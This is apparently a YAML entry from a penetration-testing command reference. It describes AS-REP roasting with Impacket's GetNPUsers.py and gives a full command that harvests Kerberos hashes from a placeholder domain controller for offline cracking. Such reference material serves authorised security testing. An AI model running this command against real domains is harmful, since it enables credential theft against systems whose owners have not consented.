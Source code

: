 ```yaml
---
description: |
  Impacket's GetNPUsers.py will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username List: usernames.txt

  	Output File: hashes.txt

command: |
  python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
items:
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

